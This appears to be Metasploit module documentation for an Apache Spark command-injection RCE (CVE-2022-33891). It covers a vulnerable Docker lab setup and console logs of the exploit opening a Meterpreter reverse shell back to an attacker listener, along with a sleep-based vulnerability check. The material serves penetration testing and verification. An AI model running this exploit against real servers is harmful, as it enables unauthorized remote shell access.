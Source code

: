 ## Vulnerable Application

This module exploits a remote code execution vulnerability (CVE-2022-33891) of Apache Spark.
The Apache Spark UI offers the possibility to enable ACLs via the configuration option `spark.acls.enable`. 
With an authentication filter, this checks whether a user has access permissions to view or modify the application. 
If ACLs are enabled, a code path in HttpSecurityFilter can allow someone to perform impersonation by providing an arbitrary user name. 
A malicious user might then be able to reach a permission check function that will ultimately build a Unix shell command based on their input, and execute it. 

This will result in arbitrary shell command execution as the user `Spark` is currently running as.

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

Installing a vulnerable version of Apache Spark is quite easy.

To set the server up use the following docker-compose.yml file and follow the steps below:
```
version: '2'

services:
  spark:
    image: docker.io/bitnami/spark:3.1.1
    environment:
      - SPARK_MODE=master
      - SPARK_RPC_AUTHENTICATION_ENABLED=no
      - SPARK_RPC_ENCRYPTION_ENABLED=no
      - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no
      - SPARK_SSL_ENABLED=no
    ports:
      - '8080:8080'
```

1. Create the docker-compose.yml in your preferred directory and run `docker-compose up`. Let the container spin up.
1. In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
1. In the container bash session, enter: `echo "spark.acls.enable true" >> conf/spark-defaults.conf`
1. cat the contents of spark-defaults.conf to make sure it looks good.
1. Exit the interactive bash shell and Ctrl-C your docker-compose process.
1. Once the containers have powered down gracefully, rerun `docker-compose up`

Once the server and application is up, it's vulnerable and you can access it on port 8080 for testing...

## Verification Steps

1. `use exploit/linux/http/apache_spark_rce_cve_2022_33891`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell or meterpreter as the `spark` user.

## Options

No specific options to be set.

## Scenarios

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit with spark.acls.enable set to true

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[*] Perform sleep test of 10 seconds...
[+] The target is vulnerable. Sleep was around 10 seconds [10.033867019]!
[*] Exploiting...
[*] Sending stage (40164 bytes) to 192.168.100.43
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.100.43 - Meterpreter session 3 closed.
[*] Sending stage (40168 bytes) to 192.168.100.43
[*] Meterpreter session 4 opened (192.168.100.7:4444 -> 192.168.100.43:62618) at 2022-08-26 10:49:46 +0000

meterpreter > sysinfo
Computer     : 7a26a9fb7ce3
OS           : Linux 5.10.104-linuxkit #1 SMP Thu Mar 17 17:08:06 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: spark
```

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit WITHOUT the spark.acls.enable option

Note: This version is vulnerable, however the `spark.acls.enable` option is not set, hence the vulnerable code will not be triggered.
Response on POST payload request will be 200 instead of 403.

```
msf6 > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(inux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The 192.168.100.43:8080 did not respond a 403 response. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/apache_spark_rce_cve_2022_33891) >
```

## Limitations
The check option to determine if the application is vulnerable is based on a 403 response and the successful execution of a `sleep 10` command.
The exploit is a blind command injection, so there is nothing reflected back on the page during the command execution.
The sleep command execution in this case is therefore a pretty safe bet to check if the command is succesfully executed.
This test works fine a LAN based setup where the timing for execution will be around 10 seconds.

However, in a WAN based scenario, additional delays can be introduced such as network latency.
To avoid false/negatives, the upper range is set to 14 seconds as buffer and contingency for unforeseen delays.

Credits goes to HuskyHacks that used this test in his [POC](https://github.com/HuskyHacks/cve-2022-33891) on GitHub.
